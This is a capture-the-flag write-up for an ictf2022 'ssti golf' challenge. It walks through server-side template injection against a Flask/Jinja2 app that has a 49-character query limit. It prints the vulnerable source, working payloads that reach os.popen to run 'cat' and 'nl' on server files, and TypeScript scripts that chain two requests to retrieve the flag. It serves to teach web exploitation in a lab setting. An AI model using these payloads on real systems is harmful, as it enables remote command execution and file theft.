




# ssti golf

Click first link. Challenge is down (°ー°〃).

Click next link and see contents of Python file:

```python
#!/usr/bin/env python3

from flask import Flask, render_template_string, request, Response

app = Flask(__name__)

@app.route('/')
def index():
    return Response(open(__file__).read(), mimetype='text/plain')

@app.route('/ssti')
def ssti():
    query = request.args['query'] if 'query' in request.args else '...'
    if len(query) > 49:
        return "Too long!"
    return render_template_string(query)

app.run('0.0.0.0', 1337)
```

Very confused. Google 'ssti'; means 'Server-Side Template Injection'.
Still confused. Do some reading:

- [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#exploit](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#exploit)
- [https://hackmd.io/@Chivato/HyWsJ31dI](https://hackmd.io/@Chivato/HyWsJ31dI)
- [https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)
- [https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/)

Figure out that this is Python Flask app, and that Flask uses a template framework called 'Jinja2'. Do some more reading:
- [https://jinja.palletsprojects.com/en/3.0.x/templates/#expressions](https://jinja.palletsprojects.com/en/3.0.x/templates/#expressions)
- [https://jinja.palletsprojects.com/en/3.0.x/templates/#list-of-builtin-filters](https://jinja.palletsprojects.com/en/3.0.x/templates/#list-of-builtin-filters)

Try adding some template code to 'query' parameter in url:


Woah, the server evaluated the query and returned the result. 
Ok, SSTI makes sense now: Exploit a server by taking advatage of how it renders template data. In this case we inject the exploit code (i.e. payload), in the url request.

But what does 'golf' mean? Some more Googling reveals 'code golfs', which are competitions to write the shortest code to achieve some goal. So this challenge requires writing the shortest template injection. Or at least shorter than 49 characters.

Still confused how to do that. Play around with different injections. Check Jinja docs, blogs, and ssti tutorials. People suggest updating config variable. Check `{{config}}`:



Hm. Looks like other people have already updated config variable.

Other blogs suggest hacking Python object tree to import module. Watch helpful youtube video (['Server-Side Template Injections Explained' by PwnFunction](https://www.youtube.com/watch?v=SN6EVIG4c-0)). They suggest accessing Python `os` module through `url_for` global object:



Challenge description said flag is in an arbitrary file in same directory as app, so use `os` to list files:


Ok, but how to read `an_arbitrarily_named_file`?

Maybe can use `os.popen` to run bash command `cat`. So, payload would be:

```js
// 71 characters
const payload = `{{lipsum.__globals__.os.popen('cat an_arbitrarily_named_file').read()}}`
```

Too long （＞人＜；）.

Oh! Use same strategy as others. 

1) Tuck some slice of payload in the `config` global variable in one request. Do this by including another url parameter in addition to `query`. For example, send `p` parameter with value of partial payload.

```js
// sstigolf.ts
// STEP 1: Update config variable with partial payload

// partialPayload
const bindPayloadToConfig = async () => {
    const partialPayload = `cat an_arbitrarily_named_file`;
    // 'p' for 'payload'
    const payloadKey = 'p';
    // query tells server to get value from url parameter 'p' and store it in Flask config variable
    const query = `{{config.update(${payloadKey}=request.args.get('${payloadKey}'))}}`;
    // Make GET request with two url parameters, 'p' and 'query'
    const targetURL = new URL(`https://sstigolf.ictf2022.iciaran.com/ssti?${payloadKey}=${partialPayload}&query=${query}`);
    const response = await fetch(targetURL);
    // If all went well, we should not get a server error
    const responseText = await response.text();
    console.log({responseText});
}

bindPayloadToConfig();
```

Response seems okay, no errors:
```js
None
```

Now access partial payload using `{{config.p}}` in subsequent template injection. This will bypass the 48 character query limit.

2) Make server construct full payload in second request 

```js
// sstigolf.ts
// STEP 2: Reconstruct full payload and get flag

const runPayload = async (payloadKey: string) => {
    // query that constructs and executes full payload
    const query = `{{lipsum.__globals__.os.popen(config.${payloadKey}).read()}}`;
    // Make GET request, this time with just `query` url parameter
    const targetURL = new URL(`https://sstigolf.ictf2022.iciaran.com/ssti?query=${query}`);
    const flag = await fetch(targetURL);
    // If all went well, we should get flag!
    const flagText = await flag.text();
    console.log({flagText});
}
// Wait a few seconds for server to update with partial payload
setTimeout(() => runPayload(payloadKey), 3000);
```

Breakdown of `query`:

```js
// Jinja template tags. This tricks server into evaluating content between brackets 
{{}}
// `lipsum` is global variable available in Flask applications. Use it to navigate to Python os module
{{lipsum.__globals__.os}
// Use os.popen to run terminal commands.
{{lipsum.__globals__.os.popen()}}
// Run command `cat an_arbitrarily_named_file` that we previously attached to `config` dictionary under the key 'p'
{{lipsum.__globals__.os.popen(config.p)}}
// Normally os.popen outputs to standard out, but we want the server to insert the output of `cat an_arbitrarily_named_file`, i.e. the flag, into the response that we get in our browser. We do this with the `.read()` method 
{{lipsum.__globals__.os.popen(config.p).read()}}
```

Et voilà, the flag!

```js
{ flagText: "ictf{F!1+3r5s!?}" }
```


## Reflection

This one took me 2 days, and I was so confused for 90% of that time. 
That too, this was one first challenges I attempted （＞人＜；）.
I tried so many different things before settling on the solution I presented in the writeup.
But, when I finally got it I was pretty stoked.

Also, I, and may others, were made aware that that this was not the intended solution. After all, we completely bypassed the 'golf' aspect of the challenge with our `config`-updating shenanigans. Based on messages in the Discord server, the challenge writers expected people to use a `query` like this:

```js
{{cycler.next.__globals__.os.popen('nl *')|max}}
```

(Which I don't think I would ever have figured out in time).

Also, also, I just realized a better solution while writing this. I forgot that the cat command can read a whole directory of files using the `*` argument, so really all the config updating stuff in my writeup is completely unnecessary 😅

```js
// 47 character solution
{{lipsum.__globals__.os.popen('cat *').read()}}
```



Taking inspiration from the intended solution, here is an even shorter solution:

```js
// 46 character solution
{{lipsum.__globals__.os.popen('nl *').read()}}
```


